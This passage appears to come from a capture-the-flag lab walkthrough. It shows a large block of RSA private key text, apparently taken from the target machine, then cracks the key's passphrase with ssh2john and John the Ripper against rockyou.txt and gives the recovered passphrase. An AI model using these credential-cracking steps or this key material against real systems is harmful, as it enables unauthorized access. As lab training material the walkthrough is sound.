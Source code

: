 ```
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
-----END RSA PRIVATE KEY-----
```
![[Pasted image 20250318011445.png]]

#### Question 8
- **Enumerate the machine to find any vectors for privilege escalation**
```
No Answer Needed - id_rsa Private Key
```

- **Decrypt the id_rsa private key**
```
└─$ nano private_key 
└─$ chmod 600 private_key 

└─$ ssh2john private_key > hash
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash 

beeswax          (private_key) 
```
![[Pasted image 20250318012518.png]]
#### Question 09
- **What is the name of the other user you found(all lower case)?**